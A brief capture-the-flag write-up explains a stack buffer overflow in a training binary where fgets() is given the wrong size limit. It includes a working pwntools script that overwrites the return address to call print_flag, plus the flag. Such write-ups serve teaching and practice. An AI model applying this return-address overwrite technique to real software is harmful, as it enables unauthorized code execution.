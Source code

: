 # 🔑 Write-Up

It's the same as the previous exercise, it uses `fgets()` instead of gets but the provided character limit is incorrect (it should be 32).

```python
from pwn import *

context.binary = "./hi"

p = process()
p.sendline(b"A" * 32 + b"a" * 8 + p64(context.binary.functions["print_flag"].address))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```
### 🚩 Flag

```plain
ccit{hi_i_am_a_flag}
```
